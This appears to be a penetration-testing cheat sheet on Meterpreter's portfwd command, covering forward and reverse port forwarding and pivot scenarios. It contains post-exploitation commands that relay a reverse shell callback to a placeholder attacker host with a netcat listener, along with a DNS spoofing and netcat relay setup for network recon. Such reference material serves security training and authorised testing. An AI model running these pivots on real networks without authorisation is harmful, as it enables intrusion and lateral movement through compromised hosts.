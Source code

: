```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - port-forward
  - scenarios
  - metasploit-framework
  - cross-platform
credits:
  - Abed Samhuri
  - Borja Merino
---
```

# Metasploit

## 01 - Help Menu

```
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]


OPTIONS:

    -h   Help banner.
    -i   Index of the port forward entry to interact with (see the "list" command).
    -l   Forward: local port to listen on. Reverse: local port to connect to.
    -L   Forward: local host to listen on (optional). Reverse: local host to connect to.
    -p   Forward: remote port to connect to. Reverse: remote port to listen on.
    -r   Forward: remote host to connect to.
    -R   Indicates a reverse port forward.
```

## 02 - Usage

Bind port from the target.

```
meterpreter > portfwd add -l -r <target_IP> <local_port> -p <bind_port>
```

Reverse port forwarding from the compromised target.

```
meterpreter > portfwd add -R -L <attacker_IP> -r <compromised_target_IP> -l <local_port> -p <bind_port>
```

List active port forwarding rules.

```
meterpreter > portfwd list
```

Remove port forward rule.

```
meterpreter > portfwd delete -r <target_IP> -l <local_port> -p <bind_port>
```

Remove all port forwarding rules

```
meterpreter > portfwd flush
```

## 03 - Scenarios

### 3.1 - Shell Handler Reverse Callback Session

```
meterpreter > portfwd add -R -L <attacker_IP> -l 5986 -p 5986

$ nc -lnvp 5986
```

### 3.2 - Bind port and exploit

```
meterpreter > portfwd add -r <target_IP> -l <local_port> -p <bind_port>
```

### 3.3 - Bind ISCSI port and mount it

Refer to this [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Cross Platform/File Server/ISCSI|section]] after a successful port forwarding.

```
meterpreter > portfwd add -r <target_IP> -l <local_port> -p 3260

# iptables -t nat -A OUTPUT -p tcp --dport 3260 -d <target_IP> -j DNAT --to-destination 127.0.0.1:<local_port>
```

### 3.4 - Reverse Bind Port Forwarding

This method is similar to this [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x06 - Pivot/Cross Platform/P2P Callback Implants/Metasploit|section]] but solely used with `portfwd` by binding it to a compromised target and can be used with not just a shell handler (or C2 frameworks), but with hosting a web server, FTP, etc.

```
meterpreter > portfwd add -R -L <attacker_IP> -l <local_port> -p <bind_port> -r <compromised_target_IP>
```

### 3.5 - DNS Port Forwarding To Perform Quick Recon

> [!NOTE]
> You must be connected in a **LAN (Local Area Network)** as this doesn't require SOCKS proxy server since this scenario does not involve when it's connected from outside the internet.

TODO: Refer to the links (under Scenarios section) with [[DNSChef]] or use just netcat to listen port 53 instead

```
meterpreter > portfwd add -r <target_IP> -l <local_port> -L 127.0.0.1 -p 53
```

```
root@hackware-os:~# dnschef --fakedomains <domain>.<tld> --fakeip '<attacker_IP>' fakealias www.<domain>.<tld> --fakens ns.<domain>.<tld> -p <local_port> -q
```

```
root@hackware-os:~# mkfifo /tmp/fifo

root@hackware-os:~# nc -lup 53 < /tmp/fifo | nc localhost 6667 > /tmp/fifo

root@hackware-os:~# cat /etc/resolv.conf
..[omitted]..
nameserver 127.0.0.1

$ cat /etc/dnsmasq.conf
..[omitted]..
```

Scan the network via DNS lookup.

```
$ for ip in 192.168.1.{1..254}; do $(host $ip 127.0.0.1); done

$ nmap -sL --dns-servers 127.0.0.1 192.168.1.0/24
```

---
## References

### Metasploit Unleashed

- [Metasploit Unleashed: Portfwd](https://www.offsec.com/metasploit-unleashed/portfwd/)

### RawSec

- [noraj: Overview of Network Pivoting and Tunneling](https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/)

### Scenarios

#### MrAcouch

- [MrAcouch:  Basic Pivoting Techniques - Putting it all together (meterpreter and covenant) ](https://www.youtube.com/watch?v=DbC195f288c)

#### Abed Samhuri

- [Abed Samhuri: How to Implement Pivoting and Relaying Techniques Using Meterpreter](https://medium.com/axon-technologies/how-to-implement-pivoting-and-relaying-techniques-using-meterpreter-b6f5ec666795)

#### Hacking Tutorials

- [Hacking Tutorials: Port forwarding - Accessing local ports remotely](https://www.hackingtutorials.org/metasploit-tutorials/metasploitable-3-port-forwarding/)

#### Security Art Work

- [Security Art Work: DNS Port Forwarding con Meterpreter](https://www.securityartwork.es/2011/06/01/dns-port-forwarding-con-meterpreter/)